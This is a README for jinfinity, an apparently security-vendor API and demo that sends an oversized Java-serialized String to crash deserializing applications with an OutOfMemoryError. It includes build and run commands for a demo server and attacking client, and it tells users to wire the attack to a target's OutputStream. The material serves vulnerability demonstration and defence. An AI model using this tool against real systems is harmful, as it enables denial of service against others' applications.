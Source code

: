 jinfinity
========

An API and demonstration program for consuming all the memory of applications that deserialize data from untrusted sources (like HTTP requests) using the Java serialization specification.

## How do I use this?

Use the com.contrastsecurity.jinfinity.JInfinity.java#sendAttack() API to push an unreasonably large serialized String to a target OutputStream. You'll need to figure out how to get the OutputStream of your target set up correctly.

## How can I run the demo program?

First, build the app:

```
git clone https://github.com/Contrast-Security-OSS/jinfinity.git
cd jinfinity
mvn clean package
```

To run the demo Jetty server, run this:
```
java -jar target/jinfinity-jar-with-dependencies.jar server
```

In another console, run the attacking client:
```
java -jar target/jinfinity-jar-with-dependencies.jar client
```

Within 30 seconds, the server will produce an OutOfMemoryError that looks something like this:

```
java.lang.OutOfMemoryError: Java heap space
	at java.lang.AbstractStringBuilder.expandCapacity(AbstractStringBuilder.java:99)
	at java.lang.AbstractStringBuilder.append(AbstractStringBuilder.java:518)
	at java.lang.StringBuffer.append(StringBuffer.java:307)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFSpan(ObjectInputStream.java:3044)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFBody(ObjectInputStream.java:2952)
	at java.io.ObjectInputStream$BlockDataInputStream.readLongUTF(ObjectInputStream.java:2935)
	at java.io.ObjectInputStream.readString(ObjectInputStream.java:1570)
```
